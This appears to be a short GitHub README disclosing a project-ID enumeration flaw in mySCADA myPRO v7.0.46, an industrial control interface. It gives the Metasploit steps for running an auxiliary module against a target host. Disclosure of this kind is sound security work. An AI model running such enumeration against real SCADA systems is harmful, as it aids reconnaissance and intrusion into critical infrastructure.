 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.
```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRES]

run
```

![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
-
